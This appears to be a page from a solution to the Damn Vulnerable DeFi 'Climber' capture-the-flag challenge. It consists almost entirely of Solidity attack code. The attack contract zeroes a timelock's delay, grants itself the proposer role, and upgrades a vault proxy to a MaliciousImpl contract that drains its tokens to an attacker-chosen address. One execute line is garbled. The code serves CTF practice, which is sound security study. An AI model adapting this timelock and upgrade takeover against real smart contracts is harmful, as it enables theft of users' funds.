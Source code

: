 ```solidity
        dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)", 0);
        dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)", PROPOSER_ROLE, address(this));
        dataElements[2] = abi.encodeWithSignature("attacker_fallback_selector()");

        bytes memory transferBytes = abi.encodeWithSignature("malicious_transfer(address,address)", address(token), recovery);
        dataElements[3] = abi.encodeWithSignature("upgradeToAndCall(address,bytes)", address(impl), transferBytes);

        timelock.schedule(targets, values, dataElements, salt);
    }

    function attack(ClimberTimelock _timelock, 
                        ERC1967Proxy _vault, 
                        MaliciousImpl _impl, 
                        DamnValuableToken _token, 
                        address _recovery) public {
        bytes32 salt = hex"01";
        timelock = _timelock;
        vault = _vault;
        impl = _impl;
        token = _token;
        recovery = _recovery;
        address[] memory targets = new address[](4);
        uint256[] memory values = new uint256[](4);
        bytes[] memory dataElements = new bytes[](4);
        targets[0] = address(timelock);
        targets[1] = address(timelock);
        targets[2] = address(this);
        targets[3] = address(vault);
        values[0] = 0;
        values[1] = 0;
        values[2] = 0;
        values[3] = 0;
        dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)", 0);
        dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)", PROPOSER_ROLE, address(this));
        dataElements[2] = abi.encodeWithSignature("attacker_fallback_selector()");

        bytes memory transferBytes = abi.encodeWithSignature("malicious_transfer(address,address)", address(token), recovery);
        dataElements[3] = abi.encodeWithSignature("upgradeToAndCall(address,bytes)", address(impl), transferBytes);
        timelock.execute(targets, values, dataElements, salt);(targets, values, dataElements, salt);
    }

}
```
**MaliciousImpl.sol**:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity =0.8.25;

import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {ClimberVault} from "../../src/climber/ClimberVault.sol";
import {UUPSUpgradeable} from "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";

contract MaliciousImpl is UUPSUpgradeable{
    constructor() {}
```